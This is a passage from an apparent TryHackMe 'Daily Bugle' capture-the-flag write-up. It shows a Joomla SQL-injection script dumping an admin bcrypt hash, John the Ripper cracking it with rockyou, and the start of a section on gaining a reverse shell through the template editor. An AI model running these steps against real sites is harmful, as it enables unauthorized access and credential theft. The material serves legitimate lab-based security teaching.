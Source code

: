 ```bash
┌──(ghost㉿kali)-[~/tryhackme/daily-bugle]
└─$ python2.7 joomblah.py http://10.10.174.189/ 
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

And we got the hash of jonah’s account: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

We can crack this hash via wheter john the ripper or hashcat. I am going with john the ripper.

```bash
┌──(ghost㉿kali)-[~/tryhackme/daily-bugle]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED     (?)     
1g 0:00:04:04 DONE (2025-07-15 05:59) 0.004097g/s 191.8p/s 191.8c/s 191.8C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---

### Gaining Reverse Shell

Now, as we cracked jonah’s hash and we have plain text password, we can now login to joomla CMS login page.

url = [`http://10.10.174.189/administrator`](http://10.10.174.189/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D)

